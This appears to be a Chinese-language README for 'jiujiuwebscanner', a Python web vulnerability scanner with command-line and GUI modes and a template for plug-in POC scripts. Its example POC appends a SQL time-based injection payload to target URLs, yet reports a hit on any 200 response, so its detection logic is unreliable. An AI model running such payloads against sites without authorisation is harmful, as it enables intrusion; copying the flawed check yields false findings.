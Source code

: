 # jiujiuwebscanner

## 一、初衷
* 没找到集成化扫描的工具，遂动手写了一个框架
* poc后面扩展

## 二、工具说明

### 三、简介
* poc主要测试web可能存在的漏洞

### 四、工具环境
* 完全的python环境

### 五、使用方式
* 命令行
* GUI

### 六、使用详解

#### 1、命令行利用方式
*进入 jiujiuwebscanner.py 文件所在目录，运行cmd程序

* 指定 url 主要部分（如：https://domain.com/?s=1）
```
python jiujiuwebscanner.py -t
```
*  指定url 文件（在同级目录下的urls.txt文件中输入想要扫描的url）
```
python jiujiuwebscanner.py -T
```
* 指定单个poc的绝对路径（形如 `D:\hackTools\hacktools\WebScan\jiujiuwebscanner\pocs\sql\SqlTimeInject.py`）
```
python jiujiuwebscanner.py -f
```
*  指定poc的目录，程序会遍历扫描目录下poc文件
```
python jiujiuwebscanner.py -F
```
* 指定扫描线程，支持多线程漏洞检测
```
python jiujiuwebscanner.py -n
```
* 开启GUI界面
```
python jiujiuwebscanner.py --gui
```
#### 2、GUI利用方式
* 选择输入单个url 或者 引用 url 文件
* 选择单个poc文件 或者 pocs 目录批量扫描
* 自由组合利用方式，单个扫描和批量扫描不能同时使用

### 七、POC

#### 1、编写格式（.py）
```
import requests

def detect_vulnerability(target):
    url = target
    result  = False
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'}
    payload = "...这里填写拼接字符串..."
    try:
        response = requests.get(url + payload, headers=headers, timeout=5)
        ...
        这里写入验证逻辑，返回字典result
        result = {
            'target': ...,
            'vulnerability': ...,
            'poc': ...
            }
        ...
        else:
            result = False
    except requests.RequestException as e:
        print(f'[-] Failed to connect to the target: {str(e)}')
    return result
```
*result{} 作为GUI面板漏洞检测结果和命令行检测结果的输出
#### 2、案例
```
import requests

def detect_vulnerability(target):
    url = target
    result  = False
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'}
    payload = "' AND (SELECT sleep(5))--"
    try:
        response = requests.get(url + payload, headers=headers, timeout=5)
        if response.status_code == 200:
            result = {
            'target': target,
            'vulnerability': 'SQL time injection',
            'poc': "' AND (SELECT sleep(5))--"
            }
        else:
            result = False
    except requests.RequestException as e:
        print(f'[-] Failed to connect to the target: {str(e)}')
    return result
```

### 八、说明
* 含有AI创作部分
* 期望同道者可添加提交POC
